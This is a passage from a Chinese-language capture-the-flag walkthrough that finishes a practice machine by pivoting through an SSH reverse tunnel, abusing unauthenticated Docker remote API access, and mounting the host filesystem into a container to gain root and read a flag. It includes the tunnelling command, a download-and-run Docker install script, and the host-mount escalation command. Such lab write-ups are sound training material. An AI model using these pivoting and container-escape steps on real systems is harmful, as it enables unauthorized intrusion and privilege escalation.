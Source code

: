 用于登陆 ssh...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlMJ7H7J8NJ7X3fYzu7BB7iarZTreKbWUicDRyY0w74uaPKuSHlYF70JD6A/640?wx_fmt=png)

```
chmod 600 ~/.ssh/authorized_keys
service ssh restart
```

将密匙放入本地 ssh 目录中... 然后开启 ssh...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlMmmMeF5Xd9W23Dwx0FUBMM56aDiaVyKXpm2NRcskRKWw4nuxJeBxFeMg/640?wx_fmt=png)

```
./ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o GlobalKnownhostsFile=/dev/null -v -i id_rsa -R 8022:172.18.0.3:8022 -fN root@192.168.182.149
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlM0zqDLNfpSVw11dk8JNvuqYQmTmC81B4GFXicoJ6Cjt88AM5H5I4shzA/640?wx_fmt=png)  

成功开启代理...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlMM09Xre3J86KpWyHD82V8L639CtqAHicjZuXvnXtW395RBsiap4KBQPug/640?wx_fmt=png)

本地访问 8022 即可登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlM0QJYC7HBAl82xpaSjm5s7zqa4OzFUHYrMK8E4gBQKaz0TplkZVvK5g/640?wx_fmt=png)

可以看到 docker，可以利用 remote API 未授权访问...

这边需要用外网... 我这边设置的是桥接的局域网环境，我这边得重新弄下改外网环境...

先更新源... 然后下载 curl...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlM5ZiaLMicSJS2ut3sko8zjbpqyS6qohx0XD7dfg43CSjgcjoBswNmic0jw/640?wx_fmt=png)

```
curl -fsSL get.docker.com -o get-docker.sh
sh get-docker.sh
docker ps
```

安装了一个 docker，可以看到安装成功了...

```
参考[链接](https://www.secpulse.com/archives/55928.html)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNsCtSSJKOriaAbO9K4vvtlMzzibV2Z5xiaicTTZlQw0RrgnnYE7dgzpVAbzFANGuH9ficCPVnxRTqCfDA/640?wx_fmt=png)

```
docker run -it --rm -v /:/vol wordpress /bin/bash
```

使用 volume 挂载主机上的所有文件到一个目录... 成功提权... 查看到了 flag3...

这台靶机可以学到 Docker 利用和 remote API 未授权访问分析和利用... 非常好！！！

由于我们已经成功得到 root 权限和 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。
